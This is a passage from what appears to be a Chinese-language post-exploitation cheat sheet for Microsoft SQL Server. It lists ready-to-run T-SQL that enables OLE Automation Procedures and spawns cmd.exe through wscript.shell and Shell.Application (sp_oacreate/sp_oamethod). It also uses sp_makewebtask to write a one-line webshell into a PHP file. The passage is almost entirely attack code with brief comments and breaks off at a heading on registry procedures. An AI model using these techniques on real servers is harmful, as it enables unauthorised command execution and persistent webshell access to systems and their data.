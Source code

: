    ```mssql
   exec sp_configure 'Ole Automation Procedures';
   --如果 config_value 和 run_value 都为 0 表示禁用
   ```

2. ####  启用 `OLE Automation Procedures`

   ```mssql
   -- 允许修改高级参数
   exec sp_configure 'show advanced options',1;
   -- 配置生效
   RECONFIGURE;
   -- 开启Ole Automation Procedures
   exec sp_configure 'Ole Automation Procedures',1;
   -- 配置生效
   RECONFIGURE;
   -- 关闭高级参数
   exec sp_configure 'show advanced options',0;
   ```

3. ####  `wscript.shell`

   ```mssql
   # 声明一个变量
   declare @shell int;
   # 使用sp_oacreate调用wscript对象
   exec sp_oacreate 'wscript.shell',@shell output;
   # 使用sp_oamethod调用变量的属性run执行系统命令
   exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c CMD命令';
   ```

4. #### Shell.Application

   ```mssql
   declare @o int;
   exec sp_oacreate 'Shell.Application', @o out;
   exec sp_oamethod @o, 'ShellExecute',null, 'cmd.exe','cmd /c CMD命令','c:\windows\system32','','1';
   ```



#### sp_makewebtask

1. #### 恢复xp_makewebtask存储过程

```mssql
exec sp_configure 'Web Assistant Procedures', 1; 
RECONFIGURE;
```

2. #### 写入文件

```mssql
exec sp_makewebtask 'C:\test1.php','select 一句话木马';
```



#### xp_reg*
